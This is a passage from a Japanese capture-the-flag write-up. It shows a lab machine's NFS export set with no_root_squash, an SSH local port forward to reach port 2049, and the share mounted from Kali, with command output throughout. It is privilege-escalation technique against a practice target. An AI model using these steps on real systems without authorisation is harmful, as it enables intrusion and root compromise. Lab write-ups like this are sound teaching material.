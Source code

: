 ```sh
[paradox@ip-10-10-19-34 ~]$ cat /etc/exports
/home/james *(rw,fsid=0,sync,no_root_squash,insecure)
```

/home/james に、no_root_squash が付いている。

kali からマウントしたいが、ポートが開いていないので直接はできない。

```sh
$ showmount -e $TARGET
clnt_create: RPC: Unable to receive
```

NFS が 2049 ポートを使用している。

```sh
[paradox@ip-10-10-19-34 ~]$ rpcinfo -p
   program vers proto   port  service
    100000    4   tcp    111  portmapper
    100000    3   tcp    111  portmapper
    100000    2   tcp    111  portmapper
    100000    4   udp    111  portmapper
    100000    3   udp    111  portmapper
    100000    2   udp    111  portmapper
    100005    1   udp  20048  mountd
    100005    1   tcp  20048  mountd
    100005    2   udp  20048  mountd
    100005    2   tcp  20048  mountd
    100024    1   udp  53303  status
    100005    3   udp  20048  mountd
    100024    1   tcp  48603  status
    100005    3   tcp  20048  mountd
    100003    3   tcp   2049  nfs
    100003    4   tcp   2049  nfs
    100227    3   tcp   2049  nfs_acl
    100021    1   udp  39447  nlockmgr
    100021    3   udp  39447  nlockmgr
    100021    4   udp  39447  nlockmgr
    100021    1   tcp  35855  nlockmgr
    100021    3   tcp  35855  nlockmgr
    100021    4   tcp  35855  nlockmgr
```

トンネリング

```sh
ssh paradox@$TARGET -i id_rsa_paradox -L 2049:localhost:2049
```

kali 上にマウントする。

```sh
$ mkdir nfs

┌──(kali㉿kali)-[~/ctf/overpass]
└─$ sudo mount -v -t nfs localhost:/ ./nfs
[sudo] password for kali:
mount.nfs: timeout set for Wed Jun  4 10:40:31 2025
mount.nfs: trying text-based options 'vers=4.2,addr=::1,clientaddr=::1'

┌──(kali㉿kali)-[~/ctf/overpass]
└─$ ls -al ./nfs
total 20
drwx------ 3 kali kali  112 Nov 18  2020 .
drwxrwxr-x 5 kali kali 4096 Jun  4 10:38 ..
lrwxrwxrwx 1 root root    9 Nov  9  2020 .bash_history -> /dev/null
-rw-r--r-- 1 kali kali   18 Nov  9  2019 .bash_logout
-rw-r--r-- 1 kali kali  141 Nov  9  2019 .bash_profile
```